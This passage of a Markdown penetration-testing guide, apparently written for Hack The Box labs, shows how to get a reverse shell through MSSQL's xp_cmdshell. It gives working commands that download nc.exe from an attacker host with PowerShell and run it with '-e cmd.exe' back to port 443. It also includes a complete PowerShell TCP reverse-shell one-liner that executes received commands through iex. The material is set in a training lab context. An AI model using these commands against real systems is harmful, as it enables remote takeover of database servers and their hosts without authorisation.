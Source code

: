 ```sql
SQL>
```
![xp_cmdshell](xp_cmdshell.png)

### Reverse shell

#### with netcat (recomended)
First obtain a copy of netcar for windows in case of using Kali/Parrot you can do it by executing:
```shell
cp /usr/share/windows-binaries/nc.exe .
```
Or you can download it from the official Kali [repository](https://gitlab.com/kalilinux/packages/windows-binaries).

Then we will start an http server.

with python3 (**recomended**):
```
python3 -m http.server
```

with python2:
```
python2 -m SimpleHTTPServer
```

Now put netcat in listening mode you can see how to do it in the part "[netcat in listening mode](#netcat-in-listening-mode)".

```sql
xp_cmdshell "powershell wget -UseBasicParsing http://YOUR IP/nc.exe -OutFile %temp%/nc.exe"
```
```sql
xp_cmdshell "%temp%/nc.exe -nv YOUR IP 443 -e cmd.exe"
```
#### with powershell script
Now we will create a file reverse shell with the extension ``.ps1`` for powershell here the code:
```powershell
$client = New-Object System.Net.Sockets.TCPClient(“YOUR IP”,443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + “# “;$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Remember change "Your IP" text for u Hack The Box VPN ip adress, example:
![Reverse Shell](reverse_shell.png)
Then we will start an http server.
